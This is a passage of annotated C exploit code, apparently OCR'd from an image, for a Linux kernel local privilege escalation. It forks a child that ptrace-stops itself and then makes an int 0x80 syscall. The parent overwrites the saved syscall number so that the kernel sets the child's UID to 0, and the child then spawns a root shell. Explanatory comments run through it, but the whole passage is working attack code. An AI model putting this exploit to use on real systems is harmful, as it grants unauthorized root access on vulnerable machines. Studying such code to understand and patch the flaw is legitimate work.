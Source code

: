             pid_t child;
            child = fork();
            &#47;*
              We fork two processes. The parent will ptrace the child, and
              the child will execute the `int 0x80` syscall.
             *&#47;
            if(child == 0) {
                    ptrace(PTRACE_TRACEME, 0, NULL, NULL);
                    kill(getpid(), SIGSTOP);
                    &#47;*
                      We ask for someone to trace us, and then signal
                      ourselves, which causes us to wait for our parent to
                      attach via `ptrace`.
                     *&#47;
                    __asm__("movl $0, %ebx\n\t"
                            "int $0x80\n");
                    &#47;*
                      We then make an (arbitrary) syscall via int 0x80,
                      with %ebx set to 0. Linux's system call convention
                      stores the first argument in %ebx, so if all goes
                      right, when our parent mucks with %rax, this will
                      result in the kernel calling set_user(0), setting
                      our current UID to 0.
                    *&#47;

                    execl("&#47;bin&#47;sh", "&#47;bin&#47;sh", NULL);
                    &#47;* Once we have root, we exec a shell. *&#47;
            } else {
                    wait(NULL);
                    ptrace(PTRACE_SYSCALL, child, NULL, NULL);
                    wait(NULL);
                    ptrace(PTRACE_POKEUSER, child, offsetof(struct user, regs.orig_rax),
                            (void*)offset);
                    ptrace(PTRACE_DETACH, child, NULL, NULL);
                    wait(NULL);
                    &#47;*
                      In the parent we need to do is `wait` for the child
                      to stop, allow it to advance until the next syscall,
                      use `PTRACE_POKEUSER` to poke `offset` into `%rax`,
                      and then detach and let it run.
                     *&#47;
            }
    }
